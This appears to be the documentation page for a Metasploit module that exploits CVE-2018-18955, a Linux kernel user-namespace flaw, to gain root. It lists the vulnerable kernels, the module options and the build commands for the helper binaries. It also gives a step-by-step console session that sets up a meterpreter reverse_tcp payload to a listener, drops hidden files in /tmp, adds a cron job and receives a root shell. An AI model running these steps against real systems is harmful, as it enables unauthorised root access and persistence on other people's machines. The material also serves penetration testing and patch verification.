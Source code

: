 ## Description

  This module exploits a vulnerability in Linux kernels 4.15.0 to 4.18.18,
  and 4.19.0 to 4.19.1, where broken uid/gid mappings between nested user
  namespaces and kernel uid/gid mappings allow elevation to root
  (CVE-2018-18955).

  The target system must have unprivileged user namespaces enabled and
  the newuidmap and newgidmap helpers installed (from uidmap package).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora Workstation 28 kernel 4.16.3-301.fc28.x86_64
  * Kubuntu 18.04 LTS kernel 4.15.0-20-generic (x86_64)
  * Linux Mint 19 kernel 4.15.0-20-generic (x86_64)
  * Ubuntu Linux 18.04.1 LTS kernel 4.15.0-20-generic (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/nested_namespace_idmap_limit_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading pre-compiled binaries.


## Compiled Executables
  
The module makes use of two pre-compiled exploit executables:

  * `subuid_shell`
  * `subshell`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar).
  
```bash
./i486-linux-musl-gcc -o subshell.out -s -pie -static subshell.c 
./i486-linux-musl-gcc -o subuid_shell.out -s -pie -static subuid_shell.c 
```


## Scenarios

### Fedora Workstation 28 (verbose output)

  ```
  msf5 > use exploit/linux/local/nested_namespace_idmap_limit_priv_esc 
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > check

  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/.LOren.c' (6058 bytes) ...
  [*] Writing '/tmp/.C9dWgG.c' (1604 bytes) ...
  [*] Writing '/tmp/.6syapMd72' (367 bytes) ...
  [*] Adding cron job...
  [*] [.] starting
  [*] [.] setting up namespace
  [*] [~] done, namespace sandbox set up
  [*] [.] mapping subordinate ids
  [*] [.] subuid: 100000
  [*] [.] subgid: 100000
  [*] [~] done, mapped subordinate ids
  [*] [.] executing subshell
  [+] Success. Waiting for job to run (may take a minute)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (816260 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.137:39150) at 2018-11-24 19:28:02 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 28 (Linux 4.16.3-301.fc28.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

